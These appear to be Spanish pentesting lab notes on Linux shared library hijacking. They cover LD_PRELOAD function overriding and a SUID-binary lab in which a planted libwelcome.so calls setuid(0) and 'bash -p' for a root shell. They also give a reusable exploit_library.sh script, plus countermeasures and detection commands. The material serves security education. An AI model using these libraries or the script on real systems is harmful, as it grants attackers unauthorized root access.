


# Secuestro de Bibliotecas Compartidas (Shared Library Hijacking)

---

## 🎯 ¿Qué es el Secuestro de Bibliotecas Compartidas?

El **Secuestro de Bibliotecas de Objetos Compartidos Enlazados Dinámicamente** es una técnica de escalada de privilegios que explota el mecanismo de carga dinámica de bibliotecas en Linux. Consiste en **reemplazar o interceptar** bibliotecas legítimas con versiones maliciosas para ejecutar código arbitrario con privilegios elevados.

> [!info] Concepto clave
> El enlazador dinámico busca bibliotecas en un orden específico de directorios. Si podemos controlar una biblioteca en una ubicación de alta prioridad, podemos "secuestrar" la ejecución del programa.

---

## 🧪 Laboratorio Básico: Programa de Ejemplo

### Código fuente del programa vulnerable

Archivo: `red_vault/scripts/secuestro.../random.c`

```c
#include <stdio.h>
#include <time.h>
#include <stdlib.h>

int main(int argc, char const *argv[]) {
    srand(time(NULL));
    printf("%d\n", rand());
    return 0;
}
```

### Compilación y ejecución

```bash
gcc -o random_example random.c
./random_example
```

---

## 🔍 Análisis de Dependencias

### Identificar bibliotecas con [[ldd]]

```bash
❯ gcc random.c -o random
❯ ./random
332512244
❯ ./random
801639025
❯ ldd random
	linux-vdso.so.1 (0x00007f4878abe000)
	libc.so.6 => /usr/lib/libc.so.6 (0x00007f4878800000)
	/lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007f4878ac0000)
```

### Análisis de funciones con [[uftrace]]

```bash
uftrace --force -a ./random
```

| Parámetro | Descripción |
|-----------|-------------|
| `--force` | Fuerza el trazado incluso sin información de depuración |
| `-a` | Muestra argumentos de las funciones |

**Funciones identificadas:**
- `srand()` - Inicializar generador de números aleatorios
- `time()` - Obtener tiempo actual
- `rand()` - Generar número aleatorio

---

## ⚙️ Mecanismo del Enlazador Dinámico

### Orden de búsqueda de bibliotecas



### Investigar firma de funciones

> [!tip] Comando útil
> Usa `man 3 rand` para consultar la documentación de la función
> - **3** = Sección de funciones de biblioteca de C

**Información necesaria:**
- **Nombre**: `rand`
- **Argumentos**: `void`
- **Retorno**: `int`

---

## 🎭 Técnica 1: Secuestro con LD_PRELOAD

### Crear biblioteca maliciosa

Archivo: `test.c`

```c
#include <stdio.h>

int rand() {
    return 42;  // Valor fijo en lugar de aleatorio
}
```

### Compilar como biblioteca compartida

```bash
gcc -shared -fPIC test.c -o test.so
```

| Flag | Descripción |
|------|-------------|
| `-shared` | Crear biblioteca compartida |
| `-fPIC` | Código independiente de posición |

### Ejecutar con secuestro

```bash
LD_PRELOAD=./test.so ./random
```

> [!example] Resultado esperado
> El programa ahora siempre devuelve `42` en lugar de números aleatorios.

---

## 🚨 Técnica 2: Escalada de Privilegios Avanzada

### Laboratorio: Library Chaos (Attack Defense)

> [!warning] Escenario real
> - Binario SUID: `/usr/bin/welcome`
> - Biblioteca faltante: `libwelcome.so`
> - LD_PRELOAD bloqueado en binarios SUID

### Análisis del entorno

```bash
# Verificar configuración del enlazador
ls -la /etc/ld.so.conf.d/

# Contenido de custom.conf
cat /etc/ld.so.conf.d/custom.conf
# Output: /home/student/lib
```

### Crear biblioteca maliciosa

#### Paso 1: Preparar directorio

```bash
mkdir /home/student/lib
```

#### Paso 2: Crear biblioteca maliciosa

Archivo: `test.c`

```c
#include <stdio.h>
#include <unistd.h>

int welcome() {
    setuid(0);   // Cambiar UID a root
    setgid(0);   // Cambiar GID a root
    system("bash -p");  // Ejecutar shell con privilegios
    return 0;
}
```

> [!info] Funciones clave
> - `setuid(0)`: Cambiar UID del proceso a 0 (root)
> - `setgid(0)`: Cambiar GID del proceso a 0 (root)  
> - `system("bash -p")`: Ejecutar shell bash con privilegios elevados

#### Paso 3: Compilar y posicionar

```bash
gcc -shared -fPIC test.c -o libwelcome.so
mv libwelcome.so /home/student/lib/
```

#### Paso 4: Ejecutar y obtener root

```bash
/usr/bin/welcome
# ¡Shell de root obtenido!
whoami
# Output: root
```

---

## 📊 Comparación de Técnicas

| Técnica | Requisitos | Limitaciones | Efectividad |
|---------|------------|--------------|-------------|
| **LD_PRELOAD** | Control de variables de entorno | Bloqueado en binarios SUID | Alta en programas normales |
| **ld.so.conf.d** | Escritura en directorios configurados | Requiere reinicio o ldconfig | Muy alta |
| **Biblioteca en PATH** | Bibliotecas en rutas estándar | Control de directorios del sistema | Media |

---

## ⚠️ Limitaciones Importantes

### Funciones estáticas vs dinámicas

> [!warning] Restricción crítica
> **No se puede secuestrar funciones estáticas**, ya que están incrustadas directamente en el binario y no son visibles al enlazador dinámico.

```bash
# Verificar si un binario es estático o dinámico
file /usr/bin/programa
ldd /usr/bin/programa
```

---

## 🛡️ Contramedidas y Defensas

### Técnicas de protección

1. **RPATH/RUNPATH**: Rutas hardcodeadas en binarios
2. **Firmas digitales**: Verificación de integridad de bibliotecas
3. **Chroot/Containers**: Aislamiento del sistema de archivos
4. **SELinux/AppArmor**: Políticas de acceso obligatorio

### Detección de ataques

```bash
# Monitorear carga de bibliotecas sospechosas
strace -e trace=openat /usr/bin/programa 2>&1 | grep "\.so"

# Verificar bibliotecas cargadas en tiempo real
lsof -p $(pidof programa) | grep "\.so"
```

---

## 🔬 Casos de Uso en Pentesting

### Reconocimiento inicial

```bash
# Buscar binarios SUID vulnerables
find / -perm -4000 2>/dev/null | xargs -I {} ldd {} 2>/dev/null

# Verificar configuración del enlazador
cat /etc/ld.so.conf
ls -la /etc/ld.so.conf.d/
```

### Explotación automatizada

```bash
#!/bin/bash
# exploit_library.sh

TARGET_BINARY=$1
LIB_NAME=$2
PAYLOAD_DIR="/tmp/evil_libs"

echo "[+] Creando directorio de payload..."
mkdir -p $PAYLOAD_DIR

echo "[+] Generando biblioteca maliciosa..."
cat > /tmp/evil.c << EOF
#include <unistd.h>
int ${LIB_NAME}() {
    setuid(0); setgid(0);
    system("bash -p");
    return 0;
}
EOF

gcc -shared -fPIC /tmp/evil.c -o ${PAYLOAD_DIR}/lib${LIB_NAME}.so

echo "[+] Ejecutando exploit..."
LD_LIBRARY_PATH=${PAYLOAD_DIR} ${TARGET_BINARY}
```

---

## 📈 Flujo Completo de Explotación



---

## 🚀 Herramientas Relacionadas

- **[[ldd]]**: Análisis de dependencias de bibliotecas
- **[[uftrace]]**: Trazado de funciones dinámicas
- **`objdump`**: Análisis de binarios ELF
- **`readelf`**: Información detallada de ejecutables
- **`strace`**: Trazado de llamadas al sistema

---

> [!success] Resumen
> El secuestro de bibliotecas compartidas es una técnica poderosa para escalada de privilegios que explota el mecanismo fundamental de carga dinámica de Linux. Su éxito depende de la configuración del sistema y los permisos disponibles, siendo especialmente efectiva contra binarios SUID mal configurados.